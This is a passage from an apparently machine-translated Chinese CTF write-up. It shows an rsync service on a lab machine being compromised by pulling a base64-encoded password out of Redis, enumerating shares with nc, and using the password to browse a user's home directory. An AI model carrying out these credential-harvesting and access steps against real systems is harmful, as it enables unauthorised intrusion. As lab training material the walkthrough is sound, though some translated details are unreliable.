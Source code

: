 我用这些知识来检索其他数据库的数据。

# 端口 873 — rsync

在“ **authlist** ”密钥数据库中，我发现了一个 base64 编码的值，该值在被解码时给出了 **rsync** 服务的登录凭证:

```
10.10.63.208:6379> lrange "authlist" 0 1001)"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="# DecodedAuthorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67.....
```

> **注意:** rsync 是一个实用程序，用于在计算机和外部硬盘驱动器之间以及联网的计算机之间高效地传输和同步文件

我发现以下资源对于了解如何利用 rsync 服务非常有用:

[](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync) [## 873 测试同步

### rsync 模块本质上是一个目录共享。这些模块可以选择用密码保护。这个…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync) [](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync/) [## Linux 黑客案例研究第 1 部分:Rsync

### 这篇博客将介绍如何攻击不安全的 Rsync 配置，以便在 Linux 上获得根 shell

www.netspi.com](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync/) 

我首先使用 **nc** 手动与 rsync 通信，并列举所有共享:

```
$ nc -vn 10.10.63.208 873
(UNKNOWN) [10.10.63.208] 873 (rsync) open
[@RSYNCD](http://twitter.com/RSYNCD): 31.0        <--- You receive this banner with the version from the server
[@RSYNCD](http://twitter.com/RSYNCD): 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
files           Necessary home interaction  <--- The server starts enumerating
[@RSYNCD](http://twitter.com/RSYNCD): EXIT         <--- Sever closes the connection
```

接下来，使用上面找到的凭证，我列出了名为 **files** 的共享中的文件:

```
$ rsync rsync://rsync-connect@10.10.63.208/files/
Password: 
drwxr-xr-x          4,096 2021/02/01 07:51:14 .
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
```

我可以看到我之前在执行 SMB 枚举时找到的用户 **sys-internal** user 的文件夹。我列出了这个目录中的文件并找到了根标志，然后我下载了它:

```
$ rsync rsync://rsync-connect@10.10.63.208/files/sys-internal/
Password: 

.....
-rw-------             38 2021/02/06 06:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 04:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 07:53:57 .config
drwx------          4,096 2021/02/01 07:53:19 .dbus
drwx------          4,096 2021/02/01 07:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 07:53:22 .local
drwx------          4,096 2021/02/01 08:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 06:43:14 .ssh
drwx------          4,096 2021/02/02 06:16:16 .thumbnails
drwx------          4,096 2021/02/01 07:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 07:53:22 Documents
```